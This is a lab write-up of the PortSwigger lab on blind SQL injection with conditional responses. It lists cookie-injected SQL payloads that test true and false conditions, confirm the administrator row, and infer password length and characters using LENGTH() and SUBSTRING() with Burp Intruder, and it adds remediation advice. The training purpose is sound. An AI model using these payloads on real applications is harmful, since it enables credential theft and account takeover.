







# Lab 03 — Blind SQL injection with conditional responses

## Lab Overview
| Field | Details |
|---|---|
| Platform | PortSwigger Web Security Academy |
| Vulnerability | Blind SQL injection; conditional-response oracle |
| Injection point | `TrackingId` cookie |
| Database objects | `users(username, password)` |
| Outcome | Successfully authenticated and reached the account page showing `Your username is: administrator` |

## Vulnerability Description
The application did not display query results or SQL errors. Instead, the presence of `Welcome back!` depended on whether the injected condition was true and returned a row. This created a conditional-response oracle.

## Testing Methodology
1. Intercept a request containing `TrackingId`.
2. Compare true and false conditions.
3. Check whether an `administrator` row exists.
4. Test password length using `LENGTH()`.
5. Test individual characters using `SUBSTRING()`.
6. Configure Burp Intruder to vary the candidate character.
7. Use Grep-Match for `Welcome back!`.
8. Authenticate as `administrator` and verify the account page.

## Step-by-Step Exploitation
True-condition test:
```sql
' AND '1'='1'--
```
False-condition test:
```sql
' AND '1'='2'--
```
The true condition displayed `Welcome back!`; the false condition did not.

Administrator existence test:
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator')='a'--
```
Password-length tests included:
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'--
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a'--
```
Character extraction pattern:
```sql
' AND (SELECT SUBSTRING(password,N,1) FROM users WHERE username='administrator')='C'--
```
`N` represented the character position and `C` a candidate character. Intruder tested candidates and Grep-Match identified responses containing `Welcome back!`.

## HTTP Request Analysis
Sanitized request shape:
```http
GET / HTTP/2
Host: <REDACTED>
Cookie: TrackingId=<REDACTED>' AND <SQL-condition>; session=<REDACTED>
```
The injection point was the `TrackingId` cookie. Full request paths and headers for every Intruder request are not preserved. Cookie/session values are intentionally redacted.

## Payload Analysis
| Pattern | Purpose | Observed result |
|---|---|---|
| `' AND '1'='1'--` | True baseline | `Welcome back!` appeared |
| `' AND '1'='2'--` | False baseline | `Welcome back!` absent |
| Administrator SELECT | Confirm row | Conditional response indicated row exists |
| `LENGTH(password)>N` | Infer length | Length checks performed; full sequence unavailable |
| `SUBSTRING(password,N,1)` | Infer character | Candidate testing performed with Intruder |

The extracted credential is deliberately not reproduced in this public report.

## Evidence and Screenshots

The following screenshots document the blind SQL injection testing and successful administrator authentication.

### 1. True and False Condition Tests



### 2. Administrator Existence Check


### 3. Password Length Testing



### 4. Character Extraction


### 5. Administrator Authentication

## Security Impact
Blind SQL injection can disclose sensitive database contents even without direct query output. A conditional oracle can reveal account existence, password length, and password characters, potentially enabling account compromise.

## Risk Severity
**Suggested: Critical potential / High minimum plausible concern.** The training exercise enabled recovery of an administrator credential and administrator authentication. Real severity depends on privileges, reachable data, and exploit reliability.

## Remediation
- Use parameterized queries for all values.
- Never concatenate cookie values into SQL.
- Treat cookies as untrusted input.
- Avoid distinguishable response, status, length, or timing behavior that reveals query truth.
- Apply least privilege and secure password hashing.
- Redact credentials and tokens from reports and logs.

## Lessons Learned
- Blind SQLi can work without direct database output.
- TRUE/FALSE conditions establish a response oracle.
- `LENGTH()` and `SUBSTRING()` support systematic inference.
- Intruder and Grep-Match automate candidate testing.
- Cookies, session IDs, and recovered credentials must be redacted.
